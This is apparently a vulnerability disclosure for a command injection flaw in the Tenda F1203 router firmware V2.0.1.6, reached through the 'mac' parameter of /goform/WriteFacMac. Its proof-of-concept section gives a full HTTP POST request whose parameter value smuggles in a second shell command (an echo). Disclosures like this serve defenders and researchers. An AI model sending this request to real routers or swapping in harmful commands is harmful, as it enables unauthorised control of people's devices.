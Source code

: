 # Tenda F1203 V2.0.1.6 was found to contain a command injection vulnerability in formWriteFacMac

## Description

`Tenda`  Router **F1203 V2.0.1.6** was found to contain a command injection vulnerability in `formWriteFacMac`.This vulnerability allows an attacker to execute arbitrary commands through the "mac" parameter.

## Firmware information

* Manufacturer's address: https://www.tenda.com.cn/

* Firmware download address : https://www.tenda.com.cn/download/detail-2494.html

## Affected version

![image-20221201234503984](images/01.png)

## Vulnerability details

This vulnerability lies in the `/goform/WriteFacMac` page，The details are shown below:

![image-20221202010903295](images/02.png)

## POC

This POC can result in a Dos.

```
POST /goform/WriteFacMac HTTP/1.1
Host: 192.168.204.143
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: user=admin
Connection: close
Content-Length: 4110

mac=00:01:02:11:22:33;echo%20hello
```
